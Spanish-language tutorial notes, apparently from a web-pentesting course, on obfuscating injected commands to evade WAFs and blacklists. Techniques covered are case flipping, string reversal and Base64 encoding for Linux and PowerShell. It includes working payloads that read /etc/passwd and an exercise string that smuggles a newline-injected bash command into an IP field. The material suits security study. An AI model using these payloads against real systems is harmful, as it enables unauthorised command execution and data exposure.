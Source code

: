 
---
# **Ofuscación Avanzada de Comandos en Inyección de Comandos**

Cuando nos enfrentamos a **WAFs (Web Application Firewalls)** o filtros más sofisticados, las técnicas básicas de evasión pueden fallar. En estos casos, podemos utilizar técnicas avanzadas de **ofuscación de comandos** para ejecutar nuestras órdenes sin ser detectados.

---

## **1. Manipulación de Mayúsculas y Minúsculas**

Algunas listas negras en filtros **no consideran las variaciones en mayúsculas y minúsculas**, por lo que podemos modificar el comando.

### **Ejemplo en Windows (CMD y PowerShell son insensibles a mayúsculas)**

```powershell
WhOaMi
```

Salida esperada:

```
user
```

### **Ejemplo en Linux (requiere conversión a minúsculas)**

Linux es **sensible a mayúsculas**, por lo que podemos utilizar `tr` para transformar el comando:

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

Salida esperada:

```
user
```

Para evitar filtros de espacios, podemos reemplazar los espacios con `%09` (tabulaciones).

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Prueba en la aplicación reemplazando espacios según las técnicas previas.

---

## **2. Reversión de Comandos**

Podemos escribir el comando **al revés** y luego revertirlo en tiempo de ejecución.

### **Ejemplo en Linux**

```bash
echo 'whoami' | rev
```

Salida esperada:

```
imaohw
```

Ejecutando el comando revertido:

```bash
$(rev<<<'imaohw')
```

Salida:

```
user
```

### **Ejemplo en Windows PowerShell**

```powershell
"whoami"[-1..-20] -join ''
```

Salida esperada:

```
imaohw
```

Ejecutando el comando revertido:

```powershell
iex "$('imaohw'[-1..-20] -join '')"
```

Salida:

```
user
```

Esta técnica permite evadir filtros que buscan palabras específicas.

---

## **3. Comandos Codificados**

Codificar el comando en **Base64** u otro formato ayuda a evitar detección por filtros que analizan patrones en texto plano.

### **Ejemplo en Linux (Base64)**

Codificamos el comando:

```bash
echo -n 'cat /etc/passwd | grep 33' | base64
```

Salida:

```
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Lo ejecutamos decodificando en `bash`:

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

Salida:

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Se evitó el uso de `|` con `<<<`.

### **Ejemplo en Windows (Base64)**

Codificamos el comando:

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

Salida:

```
dwBoAG8AYQBtAGkA
```

Ejecutamos el comando decodificado:

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

Salida:

```
user
```

Si `bash` o `base64` están bloqueados, podemos usar `openssl` para la decodificación.

---

## **4. Otras Técnicas de Evasión**

- **Uso de caracteres comodín (`*`, `?`)** para evitar filtros exactos.
- **Expansión de enteros** (`echo $((65+32))` → imprime `97`, que equivale a `a`).
- **Redirección de salida (`>`, `>>`, `<`)** para alterar la forma en que los datos son interpretados.

Para más técnicas, consultar **PayloadsAllTheThings**.

---

## **Conclusión**

- **Ofuscación avanzada** es clave para evadir filtros sofisticados.
- **Combinación de técnicas** (case manipulation, reversal, encoding) mejora la efectividad.
- **Automatización con herramientas** de ofuscación puede facilitar la explotación.

Estas estrategias permiten ejecutar comandos **evitando listas negras y WAFs avanzados**.

### Ejercicio
127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)